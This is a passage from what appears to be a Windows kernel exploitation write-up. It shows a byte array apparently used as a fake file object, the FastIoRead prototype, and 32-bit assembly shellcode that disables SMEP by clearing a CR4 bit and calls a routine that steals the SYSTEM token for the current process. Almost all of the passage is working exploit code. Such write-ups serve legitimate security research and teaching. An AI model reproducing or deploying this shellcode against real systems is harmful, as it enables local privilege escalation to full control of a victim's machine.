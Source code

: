     0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x91, 0x00, 0x52, 0x22,
    0xD2, 0x9F, 0x92, 0xCC, 0x9B, 0x2E, 0x7F, 0x5F, 0xCC, 0xD1, 0x65, 0x0E, 0x36, 0x24, 0x10, 0x98,
    0xBA, 0x4B, 0x76, 0xE6, 0x6C, 0xCE, 0x57, 0x19, 0x16, 0x1B, 0x27, 0x9B, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};
{% endhighlight %}
The payload starts in the body of the file object and contains shellcode that matches _FAST_IO_DISPATCH::FastIoRead prototype:
{% highlight C %}
BOOLEAN
NTAPI
FastIoRead(
    _In_ PFILE_OBJECT FileObject,
    _In_ PLARGE_INTEGER FileOffset,
    _In_ ULONG Length,
    _In_ BOOLEAN Wait,
    _In_ ULONG LockKey,
    _Out_ PVOID Buffer,
    _Out_ PIO_STATUS_BLOCK IoStatus,
    _In_ PDEVICE_OBJECT DeviceObject);
{% endhighlight %}
The shellcode executes in kernel mode with CPL=0. It jumps to the procedure that copies pointer to SYSTEM token to the EPROCESS struct of the current process.
{% highlight asm %}
use32

 int3
 call @f
@@:
 pop ecx
 sub ecx, (@b - $$)
 mov eax, cr4
 btr eax, 20
 mov cr4, eax
 call dword [ecx + StealSysToken]
.Exit:
 mov eax,[esp + 1Ch]
 ;mov eax,[esp + 0x20]
 xor edx, edx
 mov [eax], edx
 mov [eax + 4], edx
 mov al, 1
 ret 0x20